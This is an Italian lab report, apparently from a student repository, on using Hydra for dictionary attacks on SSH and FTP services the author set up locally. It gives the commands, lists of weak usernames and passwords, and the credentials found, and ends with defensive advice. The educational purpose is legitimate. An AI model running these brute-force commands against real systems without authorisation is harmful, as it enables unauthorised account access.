








# Relazione sull'Attacco di Dizionario con Hydra su SSH e FTP 🚀

Questa relazione documenta le fasi principali del lavoro svolto per simulare un attacco di dizionario su due diversi servizi di rete (SSH e FTP) utilizzando lo strumento Hydra.

---

## **Obiettivi** 🛠️
1. Configurare i servizi SSH e FTP su un ambiente Kali Linux.
2. Creare liste di username e password per simulare un attacco a dizionario.
3. Utilizzare Hydra per eseguire attacchi di brute force contro i servizi configurati.
4. Verificare l'efficacia delle tecniche e riflettere sull'importanza della sicurezza delle credenziali.

---

## **Fasi dell'Esercizio** 🧪

### **1. Attacco di Dizionario su SSH** 🔒
#### **Configurazione del Servizio SSH**
1. Creazione di un nuovo utente per il test:
   ```bash
   sudo adduser test_users
   ```
   Password configurata: `testpass`.

   

2. Attivazione del servizio SSH:
   ```bash
   sudo service ssh start
   ```

3. Verifica dell'accesso SSH con il nuovo utente:
   ```bash
   ssh test_users@192.168.50.100
   ```
   ✅ La connessione al servizio SSH è stata verificata con successo.

   

#### **Creazione delle Liste** 📂
- Lista di username (`username.txt`):
  ```
  test_users
  admin
  root
  user1
  guest
  operator
  support
  manager
  developer
  service
  backup
  tester
  account
  superuser
  sysadmin
  ```
- Lista di password (`password.txt`):
  ```
  password
  123456
  admin123
  testpass
  qwerty
  letmein
  password1
  welcome
  12345678
  changeme
  root123
  toor
  iloveyou
  securepass
  password123
  ```

   

#### **Comando per Creare Liste** 📋
- Creazione della lista di password utilizzando il comando:
  ```bash
  echo -e "password\n123456\nadmin123\ntestpass\nqwerty\nletmein\npassword1\nwelcome\n12345678\nchangeme\nroot123\ntoor\niloveyou\nsecurepass\npassword123" > password.txt
  ```
  **Spiegazione del comando:**
  - `echo -e`: Permette di interpretare i caratteri speciali come `\n` per andare a capo.
  - Ogni stringa separata da `\n` rappresenta una nuova riga nel file.
  - `>`: Reindirizza l'output al file `password.txt`.
  - 📁 Questo comando genera un file di testo contenente le password da utilizzare nell'attacco a dizionario.

- Creazione della lista di username utilizzando il comando:
  ```bash
  echo -e "test_user\nadmin\nroot\nuser1\nguest\noperator\nsupport\nmanager\ndeveloper\nservice\nbackup\ntester\naccount\nsuperuser\nsysadmin" > username.txt
  ```
  **Spiegazione del comando:**
  - `echo -e`: Permette di interpretare i caratteri speciali come `\n` per andare a capo.
  - Ogni stringa separata da `\n` rappresenta una nuova riga nel file.
  - `>`: Reindirizza l'output al file `username.txt`.
  - 📁 Questo comando genera un file di testo contenente l'username da utilizzare nell'attacco a dizionario.

#### **Attacco con Hydra** ⚡
Comando utilizzato:
```bash
hydra -L username.txt -P password.txt 192.168.50.100 -t 2 -V ssh
```
**Spiegazione del comando:**
- `-L username.txt`: Specifica il file contenente la lista di username.
- `-P password.txt`: Specifica il file contenente la lista di password.
- `192.168.50.100`: Indica l'indirizzo IP del target.
- `-t 2`: Imposta due thread per velocizzare l'attacco.
- `-V`: Mostra i tentativi effettuati in tempo reale.
- `ssh`: Specifica il servizio da attaccare.

**Risultati:** 🏆
- Hydra ha trovato le credenziali valide:
  ```
  Username: test_users
  Password: testpass
  ```

   
   

### **2. Attacco di Dizionario su FTP** 📡

   

#### **Configurazione del Servizio FTP**
1. Installazione del servizio FTP:
   ```bash
   sudo apt-get install vsftpd
   ```

2. Attivazione del servizio FTP:
   ```bash
   sudo service vsftpd start
   ```

3. Creazione di un nuovo utente FTP:
   ```bash
   sudo adduser ftp_user
   ```
   Password configurata: `ftp_pass`.

4. Modifica del file di configurazione FTP (`/etc/vsftpd.conf`) per garantire che l'utente possa accedere.

#### **Creazione delle Liste** 📂
- Creazione della lista di username:
  ```bash
  echo -e "ftp_user\nadmin\nroot\nguest\nuser1" > ftp_usernames.txt
  ```
  **Spiegazione del comando:**
  - `echo -e`: Permette di interpretare i caratteri speciali come `\n` per andare a capo.
  - Ogni stringa separata da `\n` rappresenta una nuova riga nel file.
  - `>`: Reindirizza l'output al file `ftp_usernames.txt`.
  - 📁 Questo comando genera un file di testo contenente i nomi utente da utilizzare nell'attacco a dizionario.

- Creazione della lista di password:
  ```bash
  echo -e "123456\npassword\nftp_pass\nadmin123\nwelcome" > ftp_passwords.txt
  ```
  **Spiegazione del comando:**
  - `echo -e`: Permette di interpretare i caratteri speciali come `\n` per andare a capo.
  - Ogni stringa separata da `\n` rappresenta una nuova riga nel file.
  - `>`: Reindirizza l'output al file `ftp_passwords.txt`.
  - 📁 Questo comando genera un file di testo contenente le password da utilizzare nell'attacco a dizionario.

   

#### **Attacco con Hydra** ⚡
Comando utilizzato:
```bash
hydra -L ftp_usernames.txt -P ftp_passwords.txt 127.0.0.1 -t 1 -V ftp
```
**Spiegazione del comando:**
- `-L ftp_usernames.txt`: Specifica il file contenente la lista di username.
- `-P ftp_passwords.txt`: Specifica il file contenente la lista di password.
- `127.0.0.1`: Indica il server FTP in locale.
- `-t 1`: Utilizza un singolo thread per l'attacco.
- `-V`: Mostra in tempo reale i tentativi effettuati.
- `ftp`: Specifica il servizio da attaccare.

**Risultati:** 🏆
- Hydra ha trovato le credenziali valide:
  ```
  Username: ftp_user
  Password: ftp_pass
  ```

   

---

## **Conclusioni** 📜
1. **Efficienza di Hydra:** Lo strumento ha dimostrato di essere efficace nell'identificare credenziali valide in un ambiente controllato.
2. **Importanza delle credenziali sicure:** L'uso di username e password deboli facilita gli attacchi a dizionario e brute force. Per prevenire tali attacchi:
   - 🔒 Utilizzare password complesse.
   - 🔐 Configurare limiti sui tentativi di accesso.
   - 🚫 Implementare misure di blocco IP dopo tentativi falliti.
3. **Lezioni apprese:**
   - 🛡️ La configurazione corretta dei servizi è fondamentale per la sicurezza.
   - ⚙️ L'uso di strumenti come Hydra aiuta a comprendere le vulnerabilità dei sistemi di autenticazione.

---

**Nota:** Le simulazioni sono state effettuate in un ambiente di laboratorio controllato per scopi educativi e non devono essere utilizzate per scopi non etici.
